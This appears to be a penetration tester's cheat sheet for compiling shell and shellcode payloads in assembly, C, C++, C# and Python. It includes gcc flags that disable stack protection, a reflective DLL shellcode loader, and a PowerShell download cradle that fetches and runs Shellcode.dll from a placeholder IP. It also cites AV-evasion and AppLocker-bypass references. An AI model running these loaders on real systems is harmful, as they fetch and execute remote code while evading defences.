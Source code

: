 # 1. GAS (GNU assembler)

`$ as --64 shell.s -o shell.o`

`$ ld -m elf_x86_64 shell.o -o shell`

* **Specify architecture**

`$ as --32 shell.s -o shell.o`

`$ ld -m elf_i386 shell.o -o shell`

# 2. YASM

`$ yasm -f elf64 shell.asm -o shell.o`

`$ ld -m elf_x86_64 -o shell shell.o`

With debugging

`$ yasm -g dwarf2 -f elf64 shell.asm -l shell.lst -o shell.o`

`$ ld -g -m elf_x86_64 -o shell shell.o`

# 3. C

* **Compile to binary**

`$ gcc -fno-stack-protector -zexecstack -static -o shell shell.c`

`$ gcc -zexecstack -static -o shell shell.c`

* **Compile to shared object**

`$ gcc -shared -fno-stack-protector -zexecstack -static -o shell.so shell.c`

* **Specify architecture**

`$ gcc -m32 -fno-stack-protector -zexecstack -static -o shell shell.c`

# 4. C++

* **Compile to binary**

`$ g++ -zexestack -static -o shell shell.cpp`

* **Specify architecture

`$ g++ -m32 -zexestack -static -o shell shell.cpp`

# 5. C\#

* **Setup Dotnet SDK**

`$ sudo ./dotnet-install.sh -i /usr/share/dotnet -c 6.0`

* **Completely uninstall specific dotnet version**

```sh
SDK_VERSION="5.0.16"
DOTNET_VERSION="5.0.213"
DOTNET_UNINSTALL_PATH="/usr/share/dotnet"
rm -rf $DOTNET_UNINSTALL_PATH/sdk/$SDK_VERSION
rm -rf $DOTNET_UNINSTALL_PATH/shared/Microsoft.NETCore.App/$DOTNET_VERSION
rm -rf $DOTNET_UNINSTALL_PATH/shared/Microsoft.AspNetCore.All/$DOTNET_VERSION
rm -rf $DOTNET_UNINSTALL_PATH/shared/Microsoft.AspNetCore.App/$DOTNET_VERSION
rm -rf $DOTNET_UNINSTALL_PATH/host/fxr/$DOTNET_VERSION
```

* **Compile Windows executable**

`$ dotnet publish -r <win-x64 | win10-x64> -c Release -p:PublishSingleFile=true -p:PublishTrimmed=true`

`$ dotnet publish -r win-x64 -c Release -p:PublishSingleFile=true -p:AllowUnsafeBlocks=true -p:PublishTrimmed=true`

Or you can just use `build`

`$ dotnet build -r win-x64 -c Release -p:PublishSingleFile=true -p:PublishTrimmed=true`

`$ dotnet build -r win-x64 -c Release -p:PublishSingleFile=true -p:AllowUnsafeBlocks=true -p:PublishTrimmed=true`

* **Compile Windows Dynamic Linked Library**

Create ClassLibrary Project

`$ dotnet new classlib`

Compile C# DLL

`$ dotnet publish -r win-x64 -c Release --sc false -p:PublishTrimmed=true`

Allow unsafe code

`$ dotnet publish -r win-x64 -c Release -p:AllowUnsafeBlocks=true --sc false -p:PublishTrimmed=true`

Execute Shellcode

```
PS C:\> [System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("DLLDropper.dll")
PS C:\> [RunDLLPublicFunc.Class1]::runner()
```

`$ cat download-cradle-dll.ps1`

---

```powershell
$data = (New-Object Net.WebClient).DownloadData("http://<IP>/Shellcode.dll")  
$assem = [System.Reflection.Assembly]::Load($data)  
$class = $assem.GetType("Shellcode.Class1")  
$method = $class.GetMethod("<method_name>")  
$method.Invoke(0, $null)
```

# 6. Python

`$ nuitka --onefile shell.py`

### References

• [https://wiki.archlinux.org/title/.NET](https://wiki.archlinux.org/title/.NET)

• [https://www.purpl3f0xsecur1ty.tech/2021/03/30/av_evasion.html](https://www.purpl3f0xsecur1ty.tech/2021/03/30/av_evasion.html)

• [https://pentestlab.blog/2017/06/06/applocker-bypass-assembly-load/](https://pentestlab.blog/2017/06/06/applocker-bypass-assembly-load/)

• [https://nuitka.net/](https://nuitka.net/)